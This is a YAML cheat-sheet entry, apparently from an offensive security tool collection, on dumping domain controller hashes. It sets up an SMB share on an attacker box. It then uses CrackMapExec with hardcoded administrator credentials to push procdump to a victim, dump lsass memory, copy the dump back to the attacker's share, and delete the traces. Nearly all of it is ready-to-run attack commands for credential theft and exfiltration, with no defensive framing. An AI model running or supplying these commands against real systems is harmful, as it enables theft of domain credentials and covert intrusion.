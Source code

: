 ```yaml
---
title: |
  Dump DC hashes without password
description: |
  First, setup a listening SMB server on your Kali box (in this case, 192.168.55.60):

    1. mkdir /share
    
    2. cd /share
    
    3. wget https://live.sysinternals.com/procdump64.exe
    
    4. screen -R smb
    
    5. /opt/impacket/examples/smbserver.py -smb2support share /share

  Then, escape the screen session and run the following CME commands to copy procdump over to the victim machine, create the dump, take the dump, then delete procdump.exe and the residual dump file:

    crackmapexec smb 192.168.55.220 -u Administrator -p 'Welkom01!' --local-auth --exec-method smbexec -x 'copy "\\192.168.55.60\share\procdump64.exe" "c:\users\public\procdump64.exe"'
    
    crackmapexec smb 192.168.55.220 -u Administrator -p 'Welkom01!' --local-auth --exec-method smbexec -x 'c:\users\public\procdump64.exe -accepteula -ma lsass.exe c:\users\public\lsass.dmp'
    
    crackmapexec smb 192.168.55.220 -u Administrator -p 'Welkom01!' --local-auth --exec-method smbexec -x 'copy "c:\users\public\lsass.dmp" "\\192.168.55.60\share\"'
    
    crackmapexec smb 192.168.55.220 -u Administrator -p 'Welkom01!' --local-auth --exec-method smbexec -x 'del "c:\users\public\lsass.dmp"
    
    crackmapexec smb 192.168.55.220 -u Administrator -p 'Welkom01!' --local-auth --exec-method smbexec -x 'del "c:\users\public\procdump64.exe"

command: |
  See commands
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Exploitation
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```

